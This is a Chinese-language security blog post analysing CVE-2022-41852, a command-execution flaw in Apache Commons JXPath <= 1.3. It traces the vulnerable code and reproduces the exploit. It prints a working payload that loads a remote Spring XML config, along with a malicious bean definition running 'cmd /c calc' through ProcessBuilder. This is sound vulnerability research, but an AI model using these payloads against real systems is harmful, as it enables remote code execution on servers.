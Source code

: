 #  【技术干货】CVE-2022-41852 Apache Commons Jxpath命令执行漏洞分析   
 星阑科技   2022-10-24 10:52  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Cc8QqLUKOeiaFHTFtiatmEIxZQcXOHfyr6GOBM88IeMm28ybjSAHEJKicuQxPxN5L5NFZ5mza2NOnuokf9ant2fUQ/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1NSkNgX8voWSJmuSUlcQtsLKWSxBUmsxRCOqbNibhhXFuhtfXiak5ibYGMcEGD9yzzIy4qVq1Q5a63IQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1NSkNgX8voWSJmuSUlcQtsLgZE9TXJrsxHuabVS0UbocSyplzJJ0pxtQQZpAzIBdZwlByjZ3qUUAQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "好看的图.png")  
  
**xxhzz**  
  
**@PortalLab实验室**  
  
**项目介绍**  
  
Apache Commons JXPath是美国阿帕奇（Apache）基金会的一种 XPath 1.0 的基于 Java 的实现。JXPath 为使用 XPath 语法遍历 JavaBeans、DOM 和其他类型的对象的图形提供了 API。  
  
**漏洞描述**  
  
Apache Commons JXPath 存在安全漏洞，攻击者可以利用除compile()和compilePath()函数之外的所有处理XPath字符串的JXPathContext类函数通过XPath表达式从类路径加载任何Java类，从而执行恶意代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9m6UklxEXL4neZukzWqeDfYJcyMuT1LOceyx8MwHwHmzf0JxlT3xib7g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**利用范围**  
  
Apache Commons JXpath <= 1.3  
  
**漏洞分析**  
## 环境搭建  
  
使用github上POC进行分析复现https://github.com/Warxim/CVE-2022-41852  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9g3oicusTbkYEibMMUekvbb0SK8sRdAPcGEoicu6ibZKOOGblgodI7AuCFQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
漏洞POC使用Spring框架，简单实现接受用户输入并使用它从Person类中检索指定的数据。  
## 前置知识  
  
在漏洞分析之前，首先了解一下JXPath及用法（参考官网用户指南：https://commons.apache.org/proper/commons-jxpath/users-guide.html）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9ws1veLqxuudQ1HjCJ6CVYnk6LadQuaT97DeUE2oCt5dM8zNBAo7VBQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
JXPath除了能够像XPatth一样能够访问XML文档各种元素之外，还能够读取和写入JavaBean的属性，获取和设置数组、集合、映射、透明容器、Servlet 中的各种上下文对象等元素。  
  
JXPath 支持开箱即用的标准 XPath 函数。它还支持“标准”扩展函数（基本上是通往 Java 的桥梁），以及完全自定义的扩展函数。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9GiaUFNYIVepM75E7JHxB4Gvbqw7a9L8Pef5fXJwibE4s0lJAcP5CUJeQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 代码分析  
  
JXPath支持自定义扩展函数，首先看一下PackageFunctions这个类  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9X4KJzdFFYObyyR5ibicw0mtZ8UPutB9bKs6I8wJZqVwUxYKP3hboYvwQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
在org.apache.commons.jxpath.PackageFunctions#getFunction中，存在methodName.equals("new"）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9VBaTjNnCovK2ianRQf3Xvsx8LsnpDG8mgHYOmM1TWE60sW0Uufc7yag/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
这里实例化的xpath表达式设置为了xxx.new()，截取括号前作为方法名，如果调用new方法就被视为实例化，两个判断一个是实例化构造函数，另一个是静态方法。  
  
往下分析，如果是实例化构造函数，在Spring框架中可通过加载远程配置实现命令执行，这里使用org.springframework.context.support.ClassPathXmlApplicationContext类，构造payload：  
  
org.springframework.context.support.ClassPathXmlApplicationContext.new("http://127.0.0.1:8001/test.xml")  
  
恶意的xml文件使用Spring-bean，设置init-method实现RCE  
```
"http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>cmd</value>
                <value>/c</value>
                <value><![CDATA[calc]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```  
  
在实例化之后，继续跟进会来到org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9WguQdmDTweJ33pTyd3bKJV2wTsSK3TZ9xojyNQLfNicNPxmoITBLYUg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
在获得了org.apache.commons.jxpath.Function对应的这个实例后，会调⽤具体的invoke实现。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u91OO3r2BzI0lIDKtO4YoUy3ialIOsAJAC2y2QxeMAVRUYnetTAtLdQxg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9qW5N2TibUcYK4ib4MHCXUwEyv6rrlDnFkKd8YmjkGZXxhw4NgflmKT2Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
最后在调用invoke实现Spring-bean加载，执行恶意代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9EdxUOt4icKNsmp16iarm4Cia3kkjGpia6ugLzAEhGZGF2TWM7hcFRzht2g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
Spring框架中还可以用org.apache.commons.jxpath.functions.MethodFunction这个类。  
  
除了实例化构造函数，Spring框架加载恶意配置的利用之外。还能利用静态方法进行RCE，例如jndi、jdbc等，后续笔者也会进行补充和分析。  
  
当然在官方介绍中说明，除了构造函数和使用静态方法，还介绍了一种调用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9NAE79u3XvaOd7SD2DaiaXkiblTGg1Yph3m7hOXcibXdxxCWQoIXibYaKzg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
此调用也可以直接利用getValue解析表达式。  
## 漏洞复现  
  
在Spring中利用远程加载配置来命令执行。  
  
构造test.xml  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9kOlAZ5vKMkHM32Pk1ibaGWlTp4qibCjWRIbBobDujs6xeQwGcohf6bZw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
本地用python开启http服务，模拟远程加载。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9qSbq060CN0vvIuYIZWnLMKTOxbxNlIve5cmYGt7Qw3ytszU4ZtY1zA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
成功命令执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wfFYMXc5G1MdSSDbEvQkNoibGiaO36k8u9k0RibjExDibl8y8RECgXZZDjZKMo5m7Fn2AdHcV3qXyozUQoia6IFWe7A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**修复建议**  
  
目前官方已经停止更新，无修复版本。  
  
**参考材料**  
  
1.https://github.com/Warxim/CVE-2022-41852  
  
2.https://commons.apache.org/proper/commons-jxpath/users-guide.html  
  
3.https://github.com/advisories/GHSA-wrx5-rp7m-mm49  
  
**更多技术干货，欢迎关注“星阑实验室”公众号**  
  
  
**关于Portal Lab**  
  
星阑科技 Portal Lab 致力于前沿安全技术研究及能力工具化。主要研究方向为API 安全、应用安全、攻防对抗等领域。实验室成员研究成果曾发表于BlackHat、HITB、BlueHat、KCon、XCon等国内外知名安全会议，并多次发布开源安全工具。未来，Portal Lab将继续以开放创新的态度积极投入各类安全技术研究，持续为安全社区及企业级客户提供高质量技术输出。  
  
  
**往期 · 推荐**  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjEyMjA5OQ==&mid=2247492888&idx=1&sn=219ad26c37836f5cdefc5f41dea620c0&chksm=c0074884f770c192f60f651f3e0c6a0f293b38a59d9499a89cd1b9c2e2d8cbc4dd4620783ed1&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjEyMjA5OQ==&mid=2247492771&idx=1&sn=5bc86cbf62a83db69b1b1919ad86273b&chksm=c007493ff770c0290f199daef6b03bd09f9f85e35c5179c3ca8fe062623ecc27522b45850f0a&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjEyMjA5OQ==&mid=2247492691&idx=1&sn=7f4fdf863953280d024c2ae7144badff&chksm=c00749cff770c0d98d9848f5415e2c7b395add84d39e4ab51172549c024d36cfc80af23ad43e&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjEyMjA5OQ==&mid=2247492617&idx=1&sn=103b4a185c02f1435ddcc1778bd038e6&chksm=c0074995f770c08374efe7cda4e53a8991a867e2b1b73fe05f0f4a32335756a56c77483ee75f&scene=21#wechat_redirect)  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Cc8QqLUKOehwcHoxicoOah5mxDjLHMZ9RHUxNeibERphRXOj3AEupxt7JyOt3LF1RmmWQibYmicTv2DxM93iaEJhLxw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
